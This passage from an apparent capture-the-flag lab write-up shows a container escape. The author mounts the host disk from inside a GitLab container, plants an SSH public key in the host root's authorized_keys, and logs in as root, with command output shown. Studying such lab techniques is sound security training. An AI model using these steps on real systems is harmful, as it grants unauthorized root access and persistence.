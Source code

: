 We can try to mount this, and find that it's another file system present:

```
root@gitlab:~# mount /dev/sda2 /mnt 
root@gitlab:~# cd /mnt
root@gitlab:/mnt# ls -la
total 100
drwxr-xr-x  20 root root  4096 Apr  5  2022 .
drwxr-xr-x   1 root root  4096 Apr  5  2022 ..
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Apr  5  2022 boot
drwxr-xr-x   2 root root  4096 Apr  5  2022 cdrom
drwxr-xr-x   5 root root  4096 Dec  4  2020 dev
drwxr-xr-x 102 root root  4096 Apr  5  2022 etc
drwxr-xr-x   3 root root  4096 Jul  7  2020 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 May  7  2020 lost+found
drwxr-xr-x   2 root root  4096 Apr 23  2020 media
drwxr-xr-x   2 root root  4096 Apr  5  2022 mnt
drwxr-xr-x   4 root root  4096 Apr  5  2022 opt
drwxr-xr-x   2 root root  4096 Apr 15  2020 proc
drwx------  10 root root  4096 May  3 07:58 root
drwxr-xr-x  10 root root  4096 Apr 23  2020 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 Apr  5  2022 snap
drwxr-xr-x   2 root root  4096 Apr  5  2022 srv
drwxr-xr-x   2 root root  4096 Apr 15  2020 sys
drwxrwxrwt  12 root root 12288 May  3 08:38 tmp
drwxr-xr-x  14 root root  4096 Apr  5  2022 usr
drwxr-xr-x  14 root root  4096 Dec  4  2020 var
```

This appears to be the main machine! And the flag is located in the correct directory.

```
root@gitlab:/mnt/root# ls
docker-gitlab  ready-channel  root.txt  snap
```

We can echo our public key into the `/mnt/root/.ssh/authorized_keys` file and use `ssh` to gain access to the main machine's `root` user.

```
$ ssh root@10.129.227.132
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 03 May 2023 08:39:22 AM UTC

  System load:                      0.15
  Usage of /:                       80.7% of 9.22GB
  Memory usage:                     79%
  Swap usage:                       0%
  Processes:                        339
  Users logged in:                  0
  IPv4 address for br-bcb73b090b3f: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.129.227.132
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:4691

  => There are 16 zombie processes.
```